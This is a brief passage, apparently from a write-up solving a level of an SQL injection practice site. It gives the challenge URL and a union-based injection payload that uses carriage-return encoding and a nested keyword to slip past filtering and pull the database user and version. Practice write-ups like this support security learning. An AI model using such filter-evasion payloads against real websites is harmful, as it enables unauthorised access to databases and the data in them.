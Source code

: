 Challl Url: http://www.zixem.altervista.org/SQLi/lvl8.php?id=1
Payload: http://www.zixem.altervista.org/SQLi/lvl8.php?id=-1%0Dunion%0Dselselectect%0Duser(),version(),3--

![](https://user-images.githubusercontent.com/25671488/61189562-c9b24500-a6ac-11e9-84c2-875da1f04393.png)
